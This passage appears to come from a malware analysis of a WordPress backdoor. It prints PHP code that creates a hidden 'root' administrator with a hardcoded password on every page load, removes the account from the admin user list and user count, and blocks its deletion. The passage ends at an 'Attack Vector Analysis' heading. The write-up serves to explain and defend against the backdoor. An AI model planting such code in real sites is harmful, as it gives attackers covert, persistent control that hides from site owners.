 **1. Auto-Creation (Every Page Load):**
```php
if (!username_exists('root')) {
    wp_insert_user([
        'user_login' => 'root',
        'user_pass' => 'Zb{0@U{vsFjq&#j(<?L[Iy0Hi_#9]i-LlJN0=Ec',
        'role' => 'administrator'
    ]);
}
```
- Created "root" admin on every WordPress page load
- If deleted, instantly recreated
- Password: `Zb{0@U{vsFjq&#j(<?L[Iy0Hi_#9]i-LlJN0=Ec`

**2. User Hiding (From Admin List):**
```php
function wp_admin_users_protect_user_query($user_search) {
    $id = get_option('_pre_user_id');
    $user_search->query_where = str_replace('WHERE 1=1',
        "WHERE {$id}={$id} AND {$wpdb->users}.ID<>{$id}",
        $user_search->query_where
    );
}
```
- Modified WordPress user query
- Excluded "root" user from admin list
- Invisible to administrators

**3. Count Hiding (Admin User Count):**
```php
function protect_user_count($views) {
    $count[0]--;  // Reduce count by 1
    $views['all'] = $html[0] . '<span class="count">(' . $count[0] . ')</span>';
}
```
- Decreased displayed user count by 1
- Hid the extra admin account
- Made "root" user completely invisible

**4. Deletion Protection:**
```php
function protect_user_from_deleting() {
    if ($_GET['action'] == 'delete' && $_GET['user'] == $id) {
        wp_die(__('Invalid user ID.'));
    }
}
```
- Prevented deletion of "root" user
- Showed error if deletion attempted
- Made backdoor persistent

---

## 🎯 Attack Vector Analysis
